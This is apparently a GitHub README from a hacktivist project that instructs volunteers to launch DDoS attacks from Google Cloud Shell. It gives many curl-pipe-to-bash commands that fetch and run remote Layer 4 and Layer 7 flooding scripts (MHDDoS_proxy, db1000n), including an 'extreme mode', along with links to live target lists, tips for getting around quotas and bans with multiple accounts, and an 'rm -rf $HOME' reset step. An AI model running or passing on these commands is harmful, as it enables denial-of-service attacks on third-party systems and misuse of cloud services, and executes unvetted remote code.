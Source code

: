 ## [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!
#
### Use https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### from PC and smartphones (*all devices with browser*;)
#
#### Browser mode (*suitable for use 1 to 20-30 accounts from one PC, if more - [here](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **It is recommended to use 1 terminal per account**.    
:exclamation:• **GShell sessions are capped at 12 hours. You can start a new session immediately after terminate**    
:exclamation:• Please note that **Weekly usage quotas, 1 account - 50 hours in normal mode and up to 50 hours in ephemeral mode** (*until the quota expires in the default mode - turn on the ephemeral mode (set - "Always") and get up to 10-50 hours of use during the current week*)    
:exclamation:• In [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) you can disable usage statistics in settings.    
• **To restore Cloud Shell** - remove all files from your home directory, command: `sudo rm -rf $HOME`, after - in the Cloud Shell menu, click the three dots menu icon, then click "Restart" *(A new VM will be provisioned and the home directory will be restored to its default state)*
#
### Stable sessions (*90%*)
:white_check_mark:**Command to install and run MHDDoS_proxy ([Layer7](https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst)):**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark: **Command to install and run db1000n:** 
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
### Tests / elaborations / experiments. 
**Unstable sessions; are terminated** (need constantly checked)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Split terminal (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (mhddos_proxy commands without parameters)
 :exclamation: **Attacks are powerful but short + high probability of getting banned** (*the ban is usually temporary and only applies to access to GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Target lists
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst     
https://gist.github.com/ddosukraine2022/f739250dba308a7a2215617b17114be9/raw/mhdos_targets_url_v2.txt
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)

